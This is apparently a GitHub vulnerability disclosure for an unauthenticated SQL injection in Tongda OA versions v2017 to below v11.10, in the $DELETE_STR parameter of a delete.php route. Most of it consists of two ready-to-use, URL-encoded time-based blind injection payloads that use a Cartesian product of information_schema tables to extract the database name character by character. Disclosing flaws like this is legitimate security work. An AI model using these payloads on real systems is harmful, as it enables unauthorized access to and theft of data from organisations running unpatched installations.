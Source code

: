 Unauthorized SQL injection vulnerability exists in Tongda OA

version:v2017 and versions below v11.10

Routing: general/system/approve_center/flow_guide/flow_type/set_print/delete.php

There is an injected parameter: $DELETE_STR

The code here is very concise. When $DELETE_STR is not empty, the parameters are directly spliced ​​into the SQL statement. Since the parentheses are closed here, there is a bypass.
![图片1](https://github.com/RCEraser/cve/assets/131632691/5ecfdddf-10f1-4830-bff2-5a829c449fcd)

We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.
POC
```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)% 20and(1)=(1
```
![图片2](https://github.com/RCEraser/cve/assets/131632691/a1a25a4b-fd0b-483b-bbd7-1a34b5e14c68)

And when we change 116 to 115, there will be no delay, indicating the existence of SQL injection.

POC
```
1)%20and%20(substr(DATABASE(),1,1))=char(115)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![图片3](https://github.com/RCEraser/cve/assets/131632691/bdd74f71-91a0-426b-b4b9-fae20f173d24)
